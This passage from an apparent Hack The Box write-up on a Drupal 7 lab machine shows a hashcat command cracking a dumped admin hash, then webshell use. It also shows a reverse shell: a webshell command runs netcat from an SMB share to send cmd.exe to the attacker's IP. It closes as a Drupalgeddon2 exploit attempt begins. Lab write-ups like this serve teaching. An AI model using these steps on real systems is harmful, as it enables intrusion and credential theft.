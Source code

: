             },
            "homepage": {
                "predicates": [
                    "foaf:page"
                ],
                "type": "rel"
            }
        },
        "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
    }



I can identify that hash as [Drupal
7](https://hashcat.net/wiki/doku.php?id=example_hashes), and try to
break it:



    $ hashcat -m 7900 admin.hash /usr/share/wordlists/rockyou.txt -o admin.cracked --force



However, that was going to take about three days on my system, and I
don't really need the password at this point.

Most useful, I have a webshell:



    root@kali# curl http://10.10.10.9/0xdf.php?cmd=whoami
    nt authority\iusr



#### Shell - nc

I'll use `smbserver` to share a copy of `nc64.exe`, and use that to get
a shell by visiting
`http://10.10.10.9/0xdf.php?cmd=\\10.10.14.14\share\nc64.exe%20-e%20cmd.exe%2010.10.14.14%20443`



    root@kali# rlwrap nc -lnvp 443                  
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443                     
    Ncat: Listening on 0.0.0.0:443                   
    Ncat: Connection from 10.10.10.9.               
    Ncat: Connection from 10.10.10.9:63660.                        
    Microsoft Windows [Version 6.1.7600]                
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
                                                  
    C:\inetpub\drupal-7.54>



### Drupalgeddon2

#### Python Script - Fail

One of the options for Drupalgeddon2 is a python script, so I started
with that. I'll use `-m` to get a copy of the script in,
`searchsploit -m exploits/php/webapps/44448.py`. The script was a bit of
a pain to get to run, but when I put in `'http://10.10.10.9/'`, it
returns not vulnerable:

